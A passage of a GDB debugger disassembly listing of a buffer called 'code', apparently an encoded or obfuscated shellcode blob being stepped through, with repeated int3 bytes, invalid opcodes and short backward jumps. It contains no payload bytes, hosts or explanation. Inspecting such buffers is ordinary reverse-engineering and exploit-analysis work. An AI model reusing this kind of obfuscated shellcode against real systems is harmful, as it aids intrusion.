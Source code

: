    0x00404070 <+48>:    xor    eax,eax
   0x00404072 <+50>:    xor    esp,ecx
   0x00404074 <+52>:    (bad)  
   0x00404075 <+53>:    int3   
   0x00404076 <+54>:    gs int3 
   0x00404078 <+56>:    (bad)  
   0x00404079 <+57>:    int3   
   0x0040407a <+58>:    ja     0x404048 <code+8>
   0x0040407c <+60>:    (bad)  
   0x0040407d <+61>:    int3   
   0x0040407e <+62>:    outs   dx,BYTE PTR ds:[esi]
   0x0040407f <+63>:    int3   
   0x00404080 <+64>:    (bad)  
   0x00404081 <+65>:    int3   
   0x00404082 <+66>:    push   edx
--Type <RET> for more, q to quit, c to continue without paging--
   0x00404083 <+67>:    int3   
   0x00404084 <+68>:    (bad)  
   0x00404085 <+69>:    int3   
   0x00404086 <+70>:    dec    ecx
   0x00404087 <+71>:    int3   
   0x00404088 <+72>:    loop   0x404056 <code+22>
   0x0040408a <+74>:    or     ah,cl
   0x0040408c <+76>:    loope  0x40405a <code+26>
   0x0040408e <+78>:    mov    edi,0xbecc0dcc
   0x00404093 <+83>:    int3   
   0x00404094 <+84>:    bswap  esp
   0x00404096 <+86>:    mov    edi,0x40cc7bcc
   0x0040409b <+91>:    int3   
   0x0040409c <+92>:    aaa    
   0x0040409d <+93>:    int3   
   0x0040409e <+94>:    or     ah,0x37
   0x004040a1 <+97>:    int3   
   0x004040a2 <+98>:    jge    0x404070 <code+48>
   0x004040a4 <+100>:   bswap  esp
   0x004040a6 <+102>:   mov    ebp,0x80cc8fcc
   0x004040ab <+107>:   int3   
   0x004040ac <+108>:   adc    ah,cl
   0x004040ae <+110>:   mov    esp,ecx
   0x004040b0 <+112>:   jnp    0x40407e <code+62>
   0x004040b2 <+114>:   inc    eax
   0x004040b3 <+115>:   int3   
   0x004040b4 <+116>:   test   esp,0xcc51ccc7
   0x004040ba <+122>:   (bad)  
   0x004040bb <+123>:   int3   
   0x004040bc <+124>:   gs int3 
   0x004040be <+126>:   aaa    
   0x004040bf <+127>:   int3   
   0x004040c0 <+128>:   dec    ebp
   0x004040c1 <+129>:   int3   
   0x004040c2 <+130>:   loop   0x404090 <code+80>
--Type <RET> for more, q to quit, c to continue without paging--
   0x004040c4 <+132>:   or     ah,cl
   0x004040c6 <+134>:   (bad)  
   0x004040c7 <+135>:   int3   
   0x004040c8 <+136>:   mov    edi,0xd8ccf1cc
   0x004040cd <+141>:   int3   
   0x004040ce <+142>:   or     ah,0x18
   0x004040d1 <+145>:   int3   
   0x004040d2 <+146>:   js     0x4040a0 <code+96>
   0x004040d4 <+148>:   cmp    ah,cl
   0x004040d6 <+150>:   loop   0x4040a4 <code+100>
   0x004040d8 <+152>:   fmul   st,st(4)
   0x004040da <+154>:   scas   eax,DWORD PTR es:[edi]